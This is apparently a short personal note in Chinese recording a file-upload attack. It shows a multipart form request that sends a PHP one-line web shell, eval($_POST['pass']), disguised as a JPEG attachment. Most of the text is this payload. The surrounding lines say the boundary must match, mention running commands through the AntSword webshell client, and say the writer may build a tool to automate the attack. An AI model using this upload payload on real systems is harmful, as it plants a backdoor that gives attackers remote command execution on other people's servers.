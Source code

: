 ```php
123
---123
Content-Disposition: form-data; name=&quot;DEST_UID&quot;

1
---123
Content-Disposition: form-data; name=&quot;ATTACHMENT&quot;; filename=&quot;jpg&quot;
Content-Type: image/jpeg

&lt;?php eval($_POST['pass']); ?&gt;
---123
```

这里Content-Type后面的boundary要和下面都一样，这也是刚刚学到的

还有一句话可以正常写，因为蚁剑自带COM执行命令

之后看看能不能写个工具自动化吧